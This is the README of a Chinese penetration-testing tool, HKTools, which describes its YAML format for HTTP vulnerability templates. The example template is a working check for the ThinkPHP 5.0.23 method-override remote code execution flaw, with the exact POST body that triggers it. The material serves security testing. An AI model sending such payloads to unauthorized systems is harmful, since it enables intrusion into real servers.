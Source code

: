 ## HKTools
一款辅助安全研发在日常工作中渗透测试、安全研究、安全开发等工作的工具！
程序支持Yaml格式的http请求模版

- 我的后续安全项目将会发布在：**[Security-Magic-Weapon 组织](https://github.com/Security-Magic-Weapon) 点击查看！**
- Telegram频道：**[安全技术资讯聚合](https://t.me/sec_info) 实时更新国内外700+个黑客安全技术论坛/社区/博客/公众号的技术文章.**
- Telegram频道：**[安全资源整合互推](https://t.me/secyq) 一个用于收录Telegram上 安全行业 黑客技术 并且还会自动推送最新的CVE漏洞、CNVD漏洞、最新的红队工具等。**

## 演示视频

[BliBli](https://www.bilibili.com/video/BV13N4y1K7eE)

## 漏洞模版

**漏洞模版采用yaml格式，文件名后缀也为yaml.**

### 基础语法

1. 漏洞名称，必须为英文.

```jsx
name: poc-yaml-thinkphp5023-method-rce
```

1. 内置函数

```jsx
set:
  randomInt: 0,1
  md5: 'admin'
```

- randomInt：由英文逗号分隔，禁止存在空格，逗号左侧为最小数字，逗号右侧为最大数字，可以在`responsebody`、`body`、`path`{{md5}}处通过进行调用
- md5：必须由单引号或双引号闭合，可以在`responsebody`、`body`、`path`{{md5}}处通过进行调用
1. 发包配置

```jsx
rules:
  r1:
    method: "POST"
    path: "/index.php?s=captcha"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: "_method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]={{md5}}&get[]=1"
    expression:
      responsestatus: 200
      responsebody: '{{md5}}'
  r2:
    method: "GET"
    path: "/{{md5}}"
    expression:
      responsestatus: 404
      responsebody: '{{md5}}'
```
